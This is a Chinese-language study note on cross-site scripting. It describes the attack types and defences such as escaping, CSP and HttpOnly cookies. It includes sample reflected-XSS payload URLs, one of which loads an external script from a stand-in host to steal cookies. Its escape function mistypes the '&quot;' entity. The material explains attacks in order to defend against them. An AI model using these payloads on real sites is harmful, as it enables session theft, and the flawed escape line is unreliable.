```yaml
---
tags:
title: XSS
date created: 2023-04-04
date modified: 2023-04-26
---
```


# XSS

XSS 全称是 Cross Site Scripting，为了与“CSS”区分开来，故简称 XSS，翻译过来就是“跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。  
如果页面被注入了恶意 JavaScript 脚本，恶意脚本都能做哪些事情。

- **可以窃取 Cookie 信息**。恶意 JavaScript 可以通过“document.cookie”获取 Cookie 信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器；恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。
- **可以监听用户行为**。恶意 JavaScript 可以使用“addEventListener”接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器。黑客掌握了这些信息之后，又可以做很多违法的事情。
- 可以通过修改 DOM 伪造假的登录窗口，用来**欺骗用户输入用户名和密码等信息**。
- 还可以在页面内**生成浮窗广告**，这些广告会严重地影响用户体验。

### 恶意脚本是怎么注入的

#### **存储型 XSS 攻击**

黑客利用站点漏洞将一段恶意 JavaScript 代码提交到网站的数据库中；

#### **反射型 XSS 攻击**

在一个反射型 XSS 攻击过程中，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又把恶意 JavaScript 脚本返回给用户

```JavaScript
// 普通
http://localhost:3000/?from=china
// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>
// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"> </script>
// 短域名伪造 https://dwz.cn/
```

#### **基于 DOM 的 XSS 攻击**

具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据。

### 如何阻止 XSS 攻击

1. **服务器对输入脚本进行过滤或转码**

   - 黑名单

   ```JavaScript
   function escape(str) {
     str = str.replace(/&/g, "&amp;");
     str = str.replace(/</g, "&lt;");
     str = str.replace(/>/g, "&gt;");
     str = str.replace(/"/g, "&quto;");
     str = str.replace(/'/g, "&#39;");
     str = str.replace(/`/g, "&#96;");
     str = str.replace(/\//g, "&#x2F;");
     return str;
   }
   ```

   - 白名单

   ```JavaScript
   const xss = require("xss");
   let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>');
   // -> <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt;
   ```

2) **充分利用 CSP**  
   CSP 有如下几个功能：

- 限制加载其他域下的资源文件，这样即使黑客插入了一个 JavaScript 文件，这个 JavaScript 文件也是无法被加载的；
- 禁止向第三方域提交数据，这样用户数据也不会外泄；
- 禁止执行内联脚本和未授权的脚本；
- 还提供了上报机制，这样可以帮助我们尽快发现有哪些 XSS 攻击，以便尽快修复问题。

```JavaScript
// 只允许加载本站资源
Content-Security-Policy: default-src 'self'
// 只允许加载 HTTPS 协议图片
Content-Security-Policy: img-src https://*
// 不允许加载任何来源框架
Content-Security-Policy: child-src 'none'
```

3. **使用 HttpOnly 属性**

由于很多 XSS 攻击都是来盗用 Cookie 的，因此还可以通过使用 HttpOnly 属性来保护我们 Cookie 的安全。

```node
response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly");
```
